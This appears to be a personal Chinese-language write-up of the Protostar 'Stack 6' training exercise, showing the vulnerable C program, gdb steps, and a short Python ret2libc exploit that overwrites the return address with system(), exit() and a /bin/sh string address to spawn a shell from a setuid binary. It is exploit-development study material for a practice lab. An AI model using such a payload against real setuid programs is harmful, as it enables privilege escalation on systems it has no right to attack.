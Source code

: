 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell



![](/png/32.png)

 We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`



 难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

